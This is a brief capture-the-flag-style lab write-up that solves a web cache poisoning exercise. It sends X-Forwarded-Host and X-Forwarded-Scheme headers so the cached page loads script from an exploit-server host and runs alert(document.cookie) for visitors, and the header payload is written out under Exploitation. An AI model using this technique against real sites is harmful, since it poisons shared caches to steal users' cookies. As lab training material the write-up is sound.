

# Web cache poisoning with multiple headers
# Objective
This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
Payload:
```
X-Forwarded-Host: test111
X-Forwarded-Scheme: test222
```

The header value is reflected to user.
||
|:--:| 
| *Normal request* |
||
| *Request with extra headers* |

## Exploitation
Paylaod (extra headers):
```
X-Forwarded-Host: exploit-0a1e0092035b4d7882072fea01350027.exploit-server.net
X-Forwarded-Scheme: http
```

||
|:--:| 
| *Exploit server configuration* |
||
| *Web cache poisoning* |
